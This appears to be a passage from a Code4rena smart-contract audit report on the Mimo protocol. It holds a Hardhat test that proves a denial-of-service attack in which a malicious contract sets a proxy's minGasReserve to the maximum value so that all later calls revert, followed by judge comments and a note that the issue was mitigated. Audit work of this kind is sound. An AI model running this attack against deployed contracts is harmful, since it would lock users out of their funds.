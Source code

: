       await deploy("MIMOProxyRegistry", {
        from: owner.address,
        args: [mimoProxyFactory.address],
      });
      const mimoProxyRegistry: MIMOProxyRegistry = await ethers.getContract("MIMOProxyRegistry");
    
      await deploy("ProxyAttacks", {
        from: owner.address,
        args: [],
      });
      const proxyAttacks: ProxyAttacks = await ethers.getContract("ProxyAttacks");
    
      return {
        owner,
        attacker,
        mimoProxyBase,
        mimoProxyFactory,
        mimoProxyRegistry,
        proxyAttacks,
      };
    });
    
    describe("Proxy attack tests", () => {
      it("DoS by manipulating gas reserve", async () => {
        const { owner, mimoProxyRegistry, proxyAttacks } = await setup();
        await mimoProxyRegistry.deploy();
        const currentProxy = await mimoProxyRegistry.getCurrentProxy(owner.address);
    
        const proxy = await ethers.getContractAt("MIMOProxy", currentProxy);
    
        // Call setGasReserve on ProxyAttacks contract
        await proxy.execute(proxyAttacks.address, "0x5f9981ae");
    
        // Proxy's minGasReserve is now type(uint256).max
        expect(await proxy.minGasReserve()).to.equal(ethers.constants.MaxUint256);
    
        // All calls revert due to underflow calculating gas stipend
        await expect(proxy.execute(proxyAttacks.address, "0xf613a687")).to.be.revertedWith(
          "Arithmetic operation underflowed or overflowed outside of an unchecked block",
        );
      });
    });

**[RnkSngh (Mimo) marked as duplicate](https://github.com/code-423n4/2022-08-mimo-findings/issues/158#issuecomment-1210483560):**

> Duplicate of [#161](https://github.com/code-423n4/2022-08-mimo-findings/issues/161).

**[gzeoneth (judge) commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/158#issuecomment-1221557802):**

> Not a duplicate due to griefing by minGasReserve.

**horsefacts (warden) reviewed mitigation:**

> **Status:** ✅ Resolved
